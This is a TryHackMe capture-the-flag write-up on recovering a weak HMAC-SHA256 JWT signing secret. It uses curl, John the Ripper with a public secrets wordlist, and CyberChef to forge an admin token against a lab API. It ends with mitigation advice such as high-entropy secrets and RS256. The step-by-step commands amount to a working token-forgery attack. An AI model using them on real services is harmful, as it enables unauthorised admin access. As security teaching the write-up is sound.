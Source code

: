 # Exploiting a Weak Symmetric JWT Secret

**Platform**: TryHackMe  
**Category**: Web App  
**Technique**: JWT Token Offline Brute Forcing (HMAC-SHA256)  

---

## Objective
The objective is to exploit a weak symmetric secret used to sign a JSON Web Token (JWT) in order to recover the secret key. Once obtained, the attacker can forge a new token with escalated privileges (e.g., admin access) and retrieve the flag or protected resource.

---

## Background / Theory
This attack targets a weak implementation of JWT authentication, where the token is signed using a symmetric algorithm like HMAC-SHA256 and a low-entropy (easily guessable) secret. When JWTs use symmetric keys, both the server and any client generating or validating tokens share the same secret. If the secret is weak, an attacker can crack it offline by brute-forcing the token signature with tools like John the Ripper or Hashcat.

Once the secret is discovered, the attacker can modify the payload (e.g., set admin: 1) and re-sign the token with the same header and cracked secret, forging a valid token that grants unauthorized access.

---

## Steps

1. Go to Task 5 on https://tryhackme.com/room/jwtsecurity
2. Authenticate to the API to recieve the JWT by making a POST request using cURL: `curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password4" }' http://10.10.237.99/api/v1.0/example4` or you can use Postman
3. Save the JWT as jtw.txt
4. Download a common JWT secret list from https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list
5. Download and install John the Ripper password cracker from https://www.openwall.com/john/ 
   - See here for a JTR cheat sheet: https://github.com/lyudaio/cheatsheets/blob/main/security/tools/johntheripper.md
6. Open a command prompt and execute `john.exe --wordlist=jwt.secrets.list --format=HMAC-SHA256 "<jwt folder path>\jwt.txt"`
7. Execute `john.exe --show "<jwt folder path>\jwt.txt"` to reveal the cracked secret
8. Use Cyber Chef: https://gchq.github.io/CyberChef/ to forge a new admin token by adding the JWT Sign operation and adding the secret value you just cracked to the Private/Secret Key section, ```{"typ": "JWT", "alg": "HS256"}``` to the Header section, and ```{"username": "user", "admin": 1}``` to the Input section (for the payload of the JWT).
9.  Use this token to retrieve the THM flag by making a request to the API with the token using cURL: `curl -H 'Authorization: Bearer [JWT Token]' http://10.10.237.99/api/v1.0/example4?username=admin`

---

## Outcome
The attacker successfully cracks the JWT secret, forges a new token with administrative privileges, and uses it to access the protected API endpoint. This leads to retrieval of the THM flag, representing unauthorized access to sensitive data due to poor token signing practices.

---

## Mitigation
To prevent this kind of vulnerability:

- Use strong, high-entropy secrets: Generate long, random strings that are not based on common words or patterns.
- Avoid hardcoded or reused secrets: Use environment variables or secure secret management tools to handle secrets.
- Consider asymmetric signing (RS256): With asymmetric algorithms, the server uses a private key to sign tokens, and clients use the corresponding public key to verify them. This means the signing key is never exposed and cannot be brute-forced from the client side.
- Rate-limit authentication attempts: Though this attack is performed offline, combining rate-limiting with secure logging and alerting can help detect potential abuse.

---